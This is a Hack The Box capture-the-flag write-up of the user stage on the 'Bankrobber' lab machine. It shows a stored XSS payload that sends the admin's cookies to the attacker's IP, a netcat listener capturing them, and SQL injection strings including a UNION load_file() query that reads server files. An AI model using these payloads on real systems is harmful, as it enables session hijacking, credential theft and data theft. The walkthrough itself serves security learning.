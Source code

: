 ```yaml
---
title: bankrobber user 
author: fieldraccoon
date: 2020-07-09
categories: [hack-the-box, windows]
tags: [hack-the-box, sqli, xxs, xsrf, javascript, insane]
math: true
---
```


Bankrobber overall was a very unstable box and due to that it was very fiddly to get a shell and get root so i will go over the methodology of the xss and sqli in depth for the user section.

Of course we start off with an nmap:
```bash
kali@kali:~/boxes/bankrobber$ nmap -sC -sV -o nmap 10.10.10.154
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-08 06:13 EDT
Nmap scan report for 10.10.10.154
Host is up (0.034s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp  open  ssl/http     Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h03m36s, deviation: 0s, median: 1h03m36s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-08T11:17:56
|_  start_date: 2020-07-08T11:07:41
```

It showed us port `3306` on `mysql` and `445` on `smb`, we tried to connect to both of theese but were noth closed via a password protection.

Port `80` however was indeed usefull.

When visited with the site i made an account with the credentials `field:field` and loged in. Here we were greeted with a transaction page which in our case is bitcoin. There is 3 boxes for information, an id box a recipitent id box and a comment. The comment box will be abused here.

When we give it a test with random values we get a poppup about an admin reviewing it, indicating that there is an admin on the website that we can possibily exploit. 

We create a file on our box with the contents:
`hello.php`:
```php
<?php ?>
```
This file can have any contents it just needs to be a file on the server.

Next we will try and steal the admin credentials by using this file as a connection to our box and then with a listener try and read the cookies.

On the bitcoin bank website we fill out the form with any id and in the contents section we add this:
```javascript
<script>new Image().src="http://10.10.xx.xx/hello.php?output="+document.cookie;</script>
```
This simple XSS will make a connectin to our ip address and try connect to the file but in fact will be redirected by a listener and reveal the contents of the request.

We send this request and on our box we get a connection back:

```bash
ali@kali:~/boxes/bankrobber$ sudo nc -nlvp 80
[sudo] password for kali:                                                                                          
listening on [any] 80 ...                                                                                          
connect to [10.10.xx.xx] from (UNKNOWN) [10.10.10.154] 49744                                                        
GET /hello.php?output=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1                
Referer: http://localhost/admin/index.php                                                                          
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1 
Accept: */*                                                                                                        
Connection: Keep-Alive                                                                                             
Accept-Encoding: gzip, deflate                                                                                     
Accept-Language: nl-NL,en,*                                                                                        
Host: 10.10.xx.xx
```

We can see here that we are given a line of credentials
```bash
output=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1
```

We decode the username and the password from base64 and read the creds in plaintext.
```bash
kali@kali:~/boxes/bankrobber$ echo YWRtaW4= | base64 -d                                                            
adminkali@kali:~/boxes/bankrobber$ echo SG9wZWxlc3Nyb21hbnRpYw== | base64 -d                                       
Hopelessromantickali@kali:~/boxes/bankrobber$
```

Then we can login with `admin:Hopelessromantic` and get access to the admin panel.

From here we can experiment with sqli to read the backdoor.php which is in control of the backdoor command on the site and what we will use to get a shell(although not in this post.)

When we type `1' or 1=1 -- -` we get presented with a panel of all the users being admin and our own user.

We can now contruct an SQL query to read the user flag.

```sql
10' UNION SELECT 1,load_file('c:\\users\\cortin\\desktop\\user.txt'),3;-- -
```
We can also cahnge the file path and read any file that we want. including the backdoor.php file which helps us build our js script to pop a shell.

Thanks for reading hope that you enjoyed.
